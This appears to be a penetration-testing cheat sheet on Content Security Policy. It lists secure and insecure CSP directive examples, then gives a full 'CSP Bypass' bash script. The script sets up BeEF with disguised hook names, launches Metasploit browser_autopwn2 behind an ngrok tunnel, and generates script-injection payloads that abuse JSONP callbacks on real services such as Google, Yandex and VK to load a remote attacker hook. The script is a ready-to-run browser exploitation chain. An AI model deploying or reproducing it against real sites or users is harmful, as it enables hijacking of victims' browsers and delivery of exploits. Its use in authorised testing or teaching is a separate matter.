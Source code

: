 # Content Security Policy

## Check List

* [ ] _Review the Content-Security-Policy header or meta element to identify misconfigurations._

## Cheat Sheet

### CSP Header

#### [cURL](https://curl.se/)

```bash
curl -I $WEBSITE | grep "content-security-policy"
```

### CSP Parameters

_default-src (Secure)_

```bash
Content-Security-Policy: default-src 'self'
```

_default-src (Non-Secure)_

```bash
Content-Security-Policy: default-src *
```

_script-src (Secure)_

```bash
Content-Security-Policy: script-src 'self' 'nonce-random123'
```

_script-src (Non-Secure)_

```bash
Content-Security-Policy: script-src 'unsafe-inline'
```

_style-src (Secure)_

```bash
Content-Security-Policy: style-src 'self' 'sha256-abc123'
```

_style-src (Non-Secure)_

```bash
Content-Security-Policy: style-src 'unsafe-inline'
```

_img-src (Secure)_

```bash
Content-Security-Policy: img-src 'self' https://cdn.example.com
```

_img-src (Non-Secure)_

```bash
Content-Security-Policy: img-src *
```

_connect-src (Secure)_

```bash
Content-Security-Policy: connect-src 'self' https://api.example.com
```

_connect-src (Non-Secure)_

```bash
Content-Security-Policy: connect-src *
```

_font-src (Secure)_

```bash
Content-Security-Policy: font-src 'self' https://fonts.gstatic.com
```

_font-src (Non-Secure)_

```bash
Content-Security-Policy: font-src *
```

_object-src (Secure)_

```bash
Content-Security-Policy: object-src 'none'
```

_object-src (Non-Secure)_

```bash
Content-Security-Policy: object-src *
```

_frame-src (Secure)_

```bash
Content-Security-Policy: frame-src 'self' https://trusted.example.com
```

_frame-src (Non-Secure)_

```bash
Content-Security-Policy: frame-src *
```

_frame-ancestors (Secure)_

```bash
Content-Security-Policy: frame-ancestors 'none'
```

_frame-ancestors (Non-Secure)_

```bash
Content-Security-Policy: frame-ancestors *
```

_sandbox (Secure)_

```bash
Content-Security-Policy: sandbox
```

_sandbox (Non-Secure)_

```bash
Content-Security-Policy: sandbox allow-scripts allow-forms
```

### CSP Bypass

#### [BeEF ](https://beefproject.com/)& JSONP

_Create Script_

```bash
sudo nano beef-csp-bypass.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    printf "${GREEN}[*] sudo ./beef-csp-bypass.sh\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Start Metasploit
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y; use auxiliary/server/browser_autopwn2; set LHOST $WAN; set URIPATH /pwn; run -z" &>/dev/null &
sleep 1

# Start ngrok and extract public URL
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi

printf "${GREEN}[*] BeEF configuration updated...${RESET}\n"

# Start BeEF
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Inject payload into JSONP callback
inject_payload()
{
    local url="$1"
    local js_payload="var script=document.createElement('script');script.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(script);"
    local encoded_callback=$(echo -n "$js_payload" | jq -sRr @uri)
    local test_url="${url/JSONP/$encoded_callback}"
    printf "%b\n" "\n${YELLOW}[*] Payload: <script src=\"${test_url}\"></script> ${RESET}\n"
}

# Target APIs for JSONP exploitation
targets=(
    "https://api.mixpanel.com/track/?callback=JSONP"
    "https://www.google.com/complete/search?client=chrome&q=hello&callback=JSONP"
    "https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=JSONP"
    "https://accounts.google.com/o/oauth2/revoke?callback=JSONP"
    "https://api-metrika.yandex.ru/management/v1/counter/1/operation/1?callback=JSONP"
    "https://api.vk.com/method/wall.get?callback=JSONP"
    "https://mango.buzzfeed.com/polls/service/editorial/post?poll_id=121996521&result_id=1&callback=JSONP"
    "https://ug.alibaba.com/api/ship/read?callback=JSONP"
)

# Run the attack
for target in "${targets[@]}"; do
    inject_payload "$target"
done

printf "\n"
printf "%b[*] BeEF Panel: https://${NGHOST}/ui/panel%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF USER: unk9vvn%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF PASS: 00980098%b\n" "$CYAN" "$RESET"
printf "%bBeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute%b\n" "$GREEN" "$RESET"
```

_Run Script_

```bash
sudo chmod +x beef-csp-bypass.sh;sudo ./beef-csp-bypass.sh
```
